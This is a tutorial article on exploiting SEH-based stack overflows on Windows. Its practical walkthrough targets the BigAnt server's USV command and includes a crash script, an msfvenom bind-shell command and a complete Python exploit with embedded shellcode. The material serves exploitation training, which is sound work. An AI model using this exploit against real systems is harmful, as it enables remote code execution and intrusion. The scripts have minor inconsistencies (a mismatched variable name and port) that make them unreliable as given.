

:orphan:
(windows-exploitation-seh-based-overflow)=

# Windows Exploitation: SEH based overflow

_Structured Exception Handling (SEH)_ is a Windows component that manages application error conditions (exceptions). It is a programming mechanism that helps applications handle any unexpected conditions encountered during the execution of a program. This article will discuss how to exploit SEH.

The majority of programming and scripting languages have exception-handling constructs similar to the one shown below. `Try/except` translates to "Attempt to execute `somecode()`, and if it throws an error for any reason, hide the error and proceed to the code in the `except` block."

```cpp
//...
try {
    somecode();
} except {
    echo "failed!!!"
}
//...
```

When Windows detects an exception, it will display the familiar message box stating that the _"An error has occurred and the application will exit."_

Exception handlers can be defined programmatically using the structure shown below:

```cpp
typedef struct _EXCEPTION_POINTERS {
    PEXCEPTION_RECORD ExceptionRecord;
    PCONTEXT ContextRecord;
} EXCEPTION_POINTERS, *PEXCEPTION_POINTERS;
```

Structured Exception Handlers are implemented as a chain, with each Exception Handler record consisting of two 4-byte addresses stored successively:

- [Pointer to the Next SEH Document]
- [address of the active SE Handler]

The address of the start of the SEH chain is stored in the _Thread Information Block (TIB)_ - a Windows32 structure present in every thread - at position `FS:[0x00]`.

In addition, Immunity debugger has the capacity to efficiently dump the SEH chain. Use `View -> SEH Chain` while debugging an application.

Structured Exception Handlers form a linked list that is located near the bottom of the stack.

During an exception, Windows first reads the head of the list from the TIB and then attempts to walk the subsequent handlers, searching for one that can safely terminate the application.

Just like any other data on the stack, SEH structures are susceptible to overflows. Can it be abused?

The address of the exception handler can be overflowed with a custom address, but hardcoding addresses is generally a poor practice that results in very low exploit reliability.

Prior to `Windows XP SP1`, a reference to the user's payload could frequently be found in a register if a crash occurred and the exception handler structure was overwritten. This is typically the case when a typical buffer overflow is exploited and the user has the ability to overwrite the `EIP` with the address of a `JMP REG` instruction, where `REG` points to the user's payload.

However, beginning with Service Pack 1, the default behavior of the exception handler has been changed to clear all registers whenever a crash occurs. This means that payload references will no longer be stored in registers during a crash. Another method of exploitation must be employed.

Nevertheless, it is possible to overflow the exception handler in such a way that it reliably executes nearby code without hardcoding a stack address.

During a SEH-based overflow, `ESP + 8` maintains a pointer to _nSEH_ (this is universal behavior of SEH). This will be demonstrated with a practical example shortly.

`ESP + 8` contains the address of nSEH, so if we can decrement the stack and then execute a return, we will reliably execute the code contained in nSEH.

Let's replace the SEH value with the address of a _POP POP RET gadget_ (that is, any instruction with the format `POP REG, POP REG, RET`).

- The first successful pop will add `4` to the `ESP` value.
- The second pop will behave identically.
- `ESP` now points to nSEH. Therefore, executing a `RET` instruction will redirect the execution flow to nSEH's location.

We are carrying out the instructions contained in nSEH. We have four bytes followed by a SEH that has been overwritten with an address pointing to a `POP/POP/RET` set of instructions.

The bytes that make up the address in the SEH are rarely usable as instructions, so attempting to execute them may result in a system crash.

Nonetheless, four bytes of the nSEH will be executed. Four bytes can still accommodate a jump-like instruction.

We can use nSEH to bypass SEH and begin executing things beyond it, such as the remainder of the user buffer, which may contain arbitrary data (e.g.- shellcode).

The opcodes for a short jump in `x86` Assembly are `eb xx`, where `xx` is the number of bytes. The two-byte range limits the short jump's range, and since there is no direction argument, direction is indicated by:

- `0x00` to `0x7f` jump forward
- `0x80 - 0xff` -> jump backwards but the range is reversed
- `0xff` and `0x80` both backwards `-1 byte` and `-128 bytes`, respectively.

When we begin executing the contents of nSEH and the `eb 06` instruction, which means _"Jump 6 bytes forward,"_ is placed there, the execution flow will be moved past the SEH to the first byte that follows it.

`6 bytes` are equivalent to `2 bytes` for `eb 06 + (the jump begins at this location: [`2 bytes` of padding] + [`4 bytes` of the current SEH])

Obviously, this is the most elementary example. It is possible that there is no space after the SEH for the shellcode. You may have to jump backwards multiple times.
You should also be aware that you may jump over the SEH where you have a bit more space and then execute a larger portion of shellcode by performing a long jump backwards.

Exploit development frequently requires originality.

## Practical example

Let's attempt to exploit the [BigAnt](https://www.bigantsoft.com/download.html) server's buffer overflow vulnerability. We'll install it on Windows XP Service Pack 1

You are presented with a console upon launch. It allows you to determine the IP address of your server, which should be accessible at `127.0.0.1`.


Additionally, you may wish to be familiar with the "Service control" option, as you may need to restart the AntServer (port 6600) multiple times throughout the exploit development process.



Launch ImmunityDbg and attach it to the process if AntServer is running:


The listening port enables you to identify the correct process from others (`6600`).

As the application is always in a paused state after attachment, pressing run (F9) will allow you to begin experimenting with the application.

The service appears to function improperly after being restarted. Each time you work with an application, you should restart it from the console and then attach the debugger. This may facilitate the development of exploits.

We will begin with an exploit template. It has already been determined that the vulnerable command is "USV" and that it must conclude with two CRLFs. Let's launch the initial exploit to verify that we can cause the remote service to crash.

The exploit skeleton looks like this:

```python
import sys
import socket

target = "192.168.8.102"
port = 6600

buf = "A" * 2500

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn = s.connect((target, port))
s.send("USV " + buff + "\r\n\r\n")
s.close()
```

Launching it causes the below access violation.


Since we are using the exception handler, we will need to pass the exception to the program so that it can be "handled." Before we proceed, let's examine the SEH chain using the `View -> SEH` chain option in Immunity.


It appears that the SEH was duplicated. Scrolling down the stack, you should observe that Immunity has marked the location where the exception handler resides. It was replaced with our information.


Now that we are certain that the exception handler was replaced with our controlled data, let's allow it to function by pressing `Shift + F9`.

The program attempted to execute `0x41414141`, which corresponds to `AAAA`. Therefore, it has been confirmed that we can control the `EIP` by overwriting the Structured Exception Handler.

As the SEH value was `0x41414141`, upon handling the exception (passing it to the program), the execution was moved to `0x41414141`, which is an invalid address, resulting in a crash.

Before we implement real shellcode here, let’s try to detect
bad characters. We will try the usual buffer of all ASCII
characters:

```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

After relaunching program again and again, detected bad chars are:

`\x00\x0a\x0d\x20\x25`

So, a bind-tcp shellcode was generated via following command:

```bash
msfvenom -p windows/shell_bind_tcp exitfunc=thread -b "\x00\x0a\x0d\x20\x25"
```

On the following, you will find the exploit code:

```python
import sys, socket

#badchars 0x0a 0x00 0x0d 0x20 0x25
sc = ("\xb8\x32\x57\xbd\x31\x2b\xc9\xb1\x51\xda\xcf\xd9\x74\x24\xf4\x5a"
"\x31\x42\x0e\x83\xc2\x04\x03\x70\x5d\x5f\xc4\x88\x0b\x74\x6a\x98"
"\x35\x75\x8a\xa7\xa6\x01\x19\x73\x03\x9d\xa7\x47\xc0\xdd\x22\xcf"
"\xd7\xf2\xa6\x60\xc0\x87\xe6\x5e\xf1\x7c\x51\x15\xc5\x09\x63\xc7"
"\x17\xce\xfd\xbb\xdc\x0e\x89\xc4\x1d\x44\x7f\xcb\x5f\xb2\x74\xf0"
"\x0b\x61\x5d\x73\x51\xe2\xc2\x5f\x98\x1e\x9a\x14\x96\xab\xe8\x75"
"\xbb\x2a\x04\x8a\xef\xa7\x53\xe0\xcb\xab\x02\x3b\x22\x0f\xa0\x30"
"\x06\x9f\xa2\x06\x85\x54\xc4\x9a\x38\xe1\x65\xaa\x1c\x9e\xeb\xe4"
"\xae\xb2\xa4\x07\x78\x2c\x16\x91\xed\x82\xaa\x35\x99\x97\xf8\x9a"
"\x31\xa7\x2d\x4c\x71\xba\x32\xb7\xd5\xba\x1d\x98\x5c\xa1\xc4\xa7"
"\xb2\x22\x0b\xf2\x26\x31\xf4\x2c\xde\xec\x03\x39\xb2\x58\xeb\x17"
"\x9e\x35\x40\xc4\x72\xf9\x35\xa9\x27\x02\x69\x4b\xa0\xed\xd6\xf5"
"\x63\x87\x06\x6c\xeb\x33\xd2\xfe\x2b\x6c\x1c\x28\xd9\x83\xb3\x81"
"\xe1\x74\x5b\x8d\xb3\x5b\x75\x9a\x34\x75\xd6\x71\x34\xaa\xb1\x9c"
"\x83\xcd\x0b\x09\xeb\x04\xdb\xe1\x47\xfc\x23\xd9\xfb\x96\x3c\xa0"
"\x3d\x1f\x94\xad\x14\xb5\xe5\x81\xff\x5c\x7e\x47\x68\xc2\x13\x0e"
"\x8d\x6e\xbc\x49\x67\xa3\xb5\x8e\x1d\x7f\x4f\xb2\xd3\xbf\xbc\x98"
"\xea\x02\x6e\x22\x50\xaf\xe3\x57\x2f\x97\xa8\xcc\x7b\x8f\xdc\xec"
"\xcf\x46\xde\x65\x74\x98\xf6\xde\x23\x34\xa6\xb1\x9a\xd2\x49\x60"
"\x4c\x76\x1b\x7d\xbe\x10\x36\x58\x3a\x2f\x1b\xa5\x93\xc5\x63\xa6"
"\x2b\xe5\x4c\xd3\x03\xe5\xee\x27\xcf\xea\x27\xf5\xef\xc5\xa0\x87"
"\xd7\x04\x43\x24\x17\x1e\x5b\x1a")

target = "127.0.0.1"
port = 6660

buff = "A" * 962
buff += "\xeb\x06\x90\x90" #nSEH
buff += "\xb9\x44\x81\x1b"
buff += "\x90" * 4 #Shellcode placeholder
buff += sc
buff += "D" * (2500-len(buff))

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect((target, port))
s.send('USV ' + buff + '\r\n\r\n')
s.close()
```


:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::
